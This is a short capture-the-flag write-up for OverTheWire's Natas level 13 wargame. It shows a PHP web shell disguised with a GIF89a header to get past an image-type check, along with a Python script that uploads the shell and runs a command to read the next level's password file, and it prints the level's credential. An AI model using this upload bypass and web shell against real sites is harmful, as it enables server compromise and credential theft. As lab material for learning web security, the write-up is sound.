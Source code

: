 
### Natas 13

<img src="img/Pasted image 20240505134633.png" alt="Example Image" width="1080"/>

its look same as previous level except , for security reasons , they accept only image files
i tried to upload previous `pwd_script.php` , i can't able to upload

let see [view-source](http://natas13.natas.labs.overthewire.org/index-source.html)

```php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
```

Its same as previous but this time they are check `exif_data()` of file that means meta data whether the given file is image
Let same `pwd_script.php`

```php
GIF89a
<?php system( $_GET['pwd'].' 2>&1'); ?>
```

`GIF89a` refers this file as image

again same script from previous levels and explanation in previous level refers above natas12

```py

import requests
import re

username = 'natas13'
password = 'lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9'

url = 'http://%s.natas.labs.overthewire.org/'%username

session = requests.Session()
response = session.post(url , files={"uploadedfile" : open('pwd_script.php','rb') } , data = {"filename" : "pwd_script.php" , "MAX_FILE_SIZE" : "1000"}, auth=(username,password))
rand_name = re.findall('"upload/(.*).php"',response.text)[0] # upload/3buos7gfom.php
response = session.get(url + 'upload/'+rand_name+'.php?pwd=cat /etc/natas_webpass/natas14' , auth =(username,password))
content = response.text
print(content)
```

---